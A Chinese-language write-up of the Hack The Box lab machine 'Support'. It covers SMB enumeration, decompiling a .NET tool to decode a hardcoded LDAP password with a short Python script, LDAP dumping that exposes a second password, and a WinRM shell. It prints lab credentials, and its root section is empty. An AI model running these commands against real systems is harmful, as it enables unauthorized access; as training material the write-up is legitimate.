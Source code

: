 ```yaml
---
description: Easy / 分析程序文件 / LDAP枚举 /
---
```


# ✔️ Support

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA support 10.129.230.181 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 先进行SMB匿名登录测试，发现可以登录上去，且有感兴趣的共享文件/support-tools（这种和靶机名称一致的提示还是蛮明显的）：

```bash
smbclient -N -L 10.129.230.181
```

<figure><img src="../../.gitbook/assets/3 (9).png" alt=""><figcaption></figcaption></figure>

* 分别尝试把这些共享文件递归下载到本地，也发现只有/support-tools的可以下载，其他的都拒绝：

```bash
smbclient //10.129.230.181/support-tools
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 下载到Kali本地后，查看发现都是exe文件和一个压缩包文件，名称是UserInfo，猜测可能包含用户信息：

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 解压UserInfo.exe.zip，比较感兴趣的有config文件和exe文件：

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

* config文件，有.NET框架的版本号信息，其他的好像没什么了：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 没有预期的任何凭证之类的内容，用enum4linux枚举也无任何收获：

```bash
enum4linux 10.129.230.181
```

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

* smbmap也没有收获：

```bash
smbmap -H 10.129.230.181 -u "" -p ""
```

<figure><img src="../../.gitbook/assets/11 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试RPC空密码连接被拒绝：

```bash
rpcclient 10.129.230.181
```

<figure><img src="../../.gitbook/assets/12 (9).png" alt=""><figcaption></figcaption></figure>

* 回到刚才解压出来的UserInfo.exe，查看其信息：

```bash
file UserInfo.exe
```

<figure><img src="../../.gitbook/assets/13 (9).png" alt=""><figcaption></figcaption></figure>

* 把这个exe文件放入Windows系统中运行试试，这里要把整个解压出来的所有文件都一起放进Windows中，不然会运行不成功：

<figure><img src="../../.gitbook/assets/14 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (6).png" alt=""><figcaption></figcaption></figure>

* 因为当前没有收集到可以用的用户名，所以直接运行该程序没用：

<figure><img src="../../.gitbook/assets/17 (5).png" alt=""><figcaption></figcaption></figure>

* 把UserInfo.exe放入dnspy中分析其代码：

<figure><img src="../../.gitbook/assets/18 (6).png" alt=""><figcaption></figcaption></figure>

* 在protected目录下的.cctor()中找到编码后的密码：

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* python IDLE终端解码后得到明文密码：'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

```python
from base64 import b64decode
from itertools import cycle
pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
enc = b64decode(pass_b64)
[e^k^223 for e,k in zip(enc, cycle(key))]
bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
```

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec验证一下凭证是否有用：

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

<figure><img src="../../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 因为该程序的代码中的ldapquery，用的是ldap协议，所以用ldapsearch和当前已获得的有效凭证列举出AD中所有的内容：

<figure><img src="../../.gitbook/assets/23 (1).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -H  'ldap://10.129.230.181' -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

* 输出结构特别多，需要仔细查看才能发现其中的support账户里包含了一个info字段，里面的字符串看上去像是密码（因为其他账户没有info这个字段）：

<figure><img src="../../.gitbook/assets/24 (1).png" alt=""><figcaption></figcaption></figure>

* 尝试使用evil-winrm和这个凭证连接，获取到了shell：

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

<figure><img src="../../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (3).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS.exe到目标系统进行信息枚举，没什么特别收获：

<figure><img src="../../.gitbook/assets/27 (3).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound.exe收集信息到bloodhound里进行分析：

<figure><img src="../../.gitbook/assets/28 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/29 (3).png" alt=""><figcaption></figcaption></figure>

* 运行bloodhound把zip包拖进去即可：

<figure><img src="../../.gitbook/assets/30 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31 (2).png" alt=""><figcaption></figcaption></figure>



### ROOT





















{% hint style="info" %}
本例虽然是被归类为简单机器，但是涉及到自己的盲区较多，看的提示较多完成度不高，对我来讲算难的机器。
{% endhint %}
